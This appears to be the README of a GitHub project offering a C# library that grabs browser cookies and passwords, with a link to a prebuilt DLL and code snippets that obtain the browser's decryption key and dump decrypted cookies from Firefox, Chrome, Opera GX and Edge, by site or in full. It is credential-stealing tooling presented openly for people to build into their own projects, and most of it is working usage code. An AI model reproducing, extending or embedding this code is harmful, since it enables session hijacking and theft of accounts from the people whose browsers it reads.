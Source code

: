 # CockyGrabber
A Browser Cookies & Passwords Grabber C#.NET Library that you can itegrate in your Projects.
*(More Supported Browsers in Future!)*

## Download: 

For download all necessary packages, you can do from nuget with searching `CockyGrabber` and download the 1.2.0 version. once done, just download the library from the last [release](https://github.com/TheBackdoor/CockyGrabber/releases/download/2.1.0/webGrabber.dll).

## Usage:
**Import Cockygrabber classes:**</br>
It's not necessary but it will look better if you import CockyGrabber:
```cs
using CockyGrabber;
using Cookie = CockyGrabber.Classes.Cookie;
```
</br>
then you will need to import a few packages to make CockyGrabber work

```cs
using System.Data.SQLite; // link: https://www.nuget.org/packages/System.Data.SQLite/
using Newtonsoft.Json; // link: https://www.nuget.org/packages/Newtonsoft.Json/
using System.Security.Cryptography.ProtectedData; // link: https://www.nuget.org/packages/System.Security.Cryptography.ProtectedData
using BouncyCastle; // link: https://www.nuget.org/packages/BouncyCastle/
```


</br>
</br>

**Getting The Key to decrypt cookies:**</br>
First you need to get a Key to decrypt the Cookies.

Replace `[GrabberClass]` with the Cookie Grabber Class you want to use (OperaGxGrabber/ChromeGrabber. Firefox doesn't need a key because it don't encrypts cookies)
```cs
[GrabberClass] grabber = new [GrabberClass]
byte[] keyToDecryptEncrypedDB = grabber.GetKey();
```
</br>
</br>

**Grabbing Cookies:**</br>
Cookie Grabbing with CockyGrabber is *REALLY EASY*.
</br>
</br>
*Cookie Hostname examples: ".instagram.com" for instagram cookies, ".github.com" for github cookies, ".stackoverflow.com" for stackoverflow cookies, ...*
</br>
</br>
</br>


Firefox Cookie Grabbing:

```cs
FirefoxGrabber grabber = new FirefoxGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com"))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies())
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
} 
```
</br>
</br>

Chrome Cookie Grabbing:
</br>
Since Chrome cookie values are encrypted with BLOB, we need a key to decrypt the data. (I defined the key on line 21, README.md)
</br>

```cs
ChromeGrabber grabber = new ChromeGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```

</br>
</br>

OperaGx Cookie Grabbing:
</br>
OperaGx also encrypts cookies so you need a key here too.
</br>

```cs
OperaGxGrabber grabber = new OperaGxGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```
</br>
</br>

Edge Cookie Grabbing:
</br>
Edge also encrypts cookies so you need a key here too.
</br>

```cs
EdgeGrabber grabber = new EdgeGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```
</br>
</br>

## End
</br>
Yea thats it for now. Fork/Star/Watch this repo to dont miss new releases!
</br>
</br>
If you want to script with me then create a Issue!
</br>
---
</br>

If you found any **Bugs** then please create a Issue!
